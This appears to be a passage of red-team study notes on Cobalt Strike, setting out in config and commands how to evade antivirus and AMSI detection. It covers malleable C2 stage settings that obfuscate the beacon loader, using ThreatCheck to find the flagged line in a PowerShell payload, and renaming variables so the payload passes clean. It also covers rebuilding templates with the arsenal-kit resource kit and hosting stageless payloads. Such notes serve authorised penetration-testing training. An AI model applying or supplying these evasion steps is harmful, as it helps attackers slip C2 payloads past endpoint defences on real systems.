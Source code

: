 These are the four simple settings that I recommend trying
```
stage {
        set userwx "false";
        set cleanup "true";
        set obfuscate "true";
        set module_x64 "xpsservices.dll";
}
```
userwx tells the loader to allocate memory for the beacon dll as rw/rx rather then rwx
cleanup as true tells beacon to free the memory associated with the reflected loader after it has been loaded
obfuscate to true does a lot of things to obfuscate the loader

**Resource Kit**

we can check for threats in powershell scripts with -e amsi to detect issues, real time protection needs to be enabled for this
```
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\smb_x64.ps1 -e amsi
```

in this example this line is an issue with the smb_x64.ps1
```
for ($x = 0; $x -lt $var_code.Count; $x++) {
	$var_code[$x] = $var_code[$x] -bxor 35
}
```

we can use a find and replace function in vscode to look for $x and $var_code variables to change it to something else
```
for ($i = 0; $i -lt $enc.Count; $i++) {
    $enc[$i] = $enc[$i] -bxor 35
}
```

check if it passes clean now
```
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\smb_x64.ps1 -e amsi
```

to make permanent we can use the resource kit for this found here: C:\Tools\cobaltstrike\arsenal-kit\kits\resource

use the included build script and specify an output directory, then load resources.cna into Cobalt Strike
```
./build.sh /mnt/c/Tools/cobaltstrike/resources
```

another issue, when hosting powershell payloads with the scripted web delivery method, the compress.ps1 template is used, which decompresses the payload from a gzip stream. easiest workaround is to host your stagless powershell modules directly via *Site Management>Host File*


### AMSI vs post-exploitation
